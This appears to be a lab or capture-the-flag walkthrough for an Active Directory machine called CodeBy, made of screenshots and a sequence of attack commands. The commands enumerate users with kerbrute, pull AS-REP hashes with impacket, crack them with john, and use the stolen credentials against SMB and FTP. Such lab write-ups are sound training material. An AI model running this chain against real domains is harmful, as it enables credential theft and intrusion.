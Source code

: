 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3274c1ab-228c-432f-afaf-0f2b3b95b055)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3dbbd25-a7cb-4df1-90cf-306ec7ee6856)
```
smbmap -u "a.fedotov" -p "PASS" -d codeby.cdb -H 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec7ae321-e8f1-4620-8c10-b6059add3170)
```
smbclient '//192.168.2.5/Andrey Fedotov' -U a.fedotov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e7ee330-c368-4a6c-9f74-dc08b3263b32)

```
enum4linux-ng 192.168.2.5 -u 'a.fedotov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2c99b7f1-94f0-475d-8163-bb398f225231)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e580e62-e0b0-4c19-a4e2-0c6d93dc0779)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/961ca617-e8f4-4f80-a8ef-1b5c6ab3a47d)
```
ftp 192.168.2.5
```



